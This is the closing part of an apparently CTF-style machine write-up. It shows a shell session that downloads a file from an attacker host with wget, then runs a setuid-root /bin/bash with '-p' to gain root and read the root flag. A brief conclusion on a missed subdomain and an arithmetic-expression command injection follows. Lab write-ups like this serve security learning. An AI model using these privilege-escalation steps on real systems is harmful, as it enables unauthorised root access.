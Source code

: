 ```bash
bash-4.4$ cd /tmp
cd /tmp
bash-4.4$ wget http://10.10.14.15:8081/test.pdf
wget http://10.10.14.15:8081/test.pdf
--2023-04-01 10:11:50--  http://10.10.14.15:8081/test.pdf
Connecting to 10.10.14.15:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4576 (4.5K) [application/pdf]
Saving to: 'test.pdf'

test.pdf.1          100%[===================>]   4.47K  --.-KB/s    in 0.001s  

2023-04-01 10:11:50 (3.19 MB/s) - 'test.pdf' saved [4576/4576]


bash-4.4$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr 18  2022 /bin/bash
bash-4.4$ /bin/bash -p 
bash-4.4# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
bash-4.4# cat /root/root.txt
cat /root/root.txt
f64108af50796213d7a500029861c6cc
bash-4.4# 
```

And we're done!

## Conclusion

When enumerating, I missed the subdomain in the response headers, which led to a whole lot of nothing.  With the API endpoint found, fuzzing the query parameter and determining the functionality was fairly straight forward.

The presence of a command injection into the cleanup script seemed obvious, but I hadn't come across this particular flavour (arithmetic expression) of injection before.

This machine was another reminder to take enumeration slowly and be deliberate -- don't just fuzz and spray payloads at endpoints blindly hoping to find something.
